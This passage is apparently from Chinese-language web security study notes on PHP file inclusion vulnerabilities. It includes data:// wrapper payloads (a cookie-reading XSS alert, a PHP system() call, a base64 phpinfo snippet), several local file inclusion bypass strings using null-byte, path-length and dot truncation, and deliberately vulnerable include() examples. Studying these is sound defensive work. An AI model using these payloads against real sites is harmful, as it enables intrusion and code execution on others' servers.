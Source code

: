 ```
?page=data://text/plain,<script>alert(document.cookie)</script>
?page=data://text/plain,<?php system("ping 127.0.0.1");?>
?page=data://text/plain;base64,PD9waHAgZWNobyBwaHBpbmZvKCk7Pz4=
```

## 本地文件包含漏洞绕过方式

### %00截断:

![image-20240906161442460](https://image.201068.xyz/assets/30.文件包含/image-20240906161442460.png)

```php
<?php include("inc/" . $_GET['file'] . ".htm");?>
```

条件:`magic_quotes_gps=off` php版本<`5.3.4`

```
?page=../../../../phpinfo.php%00
```

php内核由c语言实现，因此使用了c语言中的字符串处理函数，在连接字符串时`0`字节作为字符串的结束符，`%00` url解码为`0x00`，

`magic_quotes_gps`**开启**时会将`%00`转义为`\0`的两个单体字符，故不具备截断功能。

### %00截断目录遍历:

条件:`magic_quotes_gps=off` 

unix文件系统,比如`FreeBSD,OpenBSD,NetBSD,Solaris`

```
?page=../../../../var/www/%00
```

### 路径长度截断

条件:php版本小于5.2.8，Windows下目录最大长度为256字节，超出的部分会被丢弃linux下目录最大长度为4096字节，超出的部分会被丢弃。

```
?page=../../../../phpinfo.php././././....]/././././././
```

### 点号截断

条件:php版本小于5.2.8，只适用于Windows操作系统，点号需长于256

```
?page=../../../../phpinfo.php........[.....]......
```

## 远程文件包含漏洞绕过方式

![image-20240906141430776](https://image.201068.xyz/assets/30.文件包含/image-20240906141430776.png)

```php
<?php
	$basePath = $_GET['path'];
	require once $basePath . "/action/m_share.php";
?>
```
